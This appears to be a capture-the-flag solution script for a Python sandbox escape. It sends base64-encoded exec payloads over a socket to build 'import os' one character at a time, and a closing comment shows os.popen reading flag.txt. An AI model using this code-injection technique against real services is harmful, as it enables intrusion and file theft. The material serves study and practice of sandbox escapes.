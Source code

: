 ```py
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iOyInKX0=") # a += ";"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iaSInKX0=") # a += "i"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibSInKX0=") # a += "m"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icCInKX0=") # a += "p"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iciInKX0=") # a += "r"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())


con.send(b"ezU6772FeGVjKGYnZ2xvYmFsIGE7e2F9Jyl9") # exec(a)
time.sleep(1)
print(con.recv(4096).decode())

print("global os;import os")

### os.popen("cat flag.txt").read()

```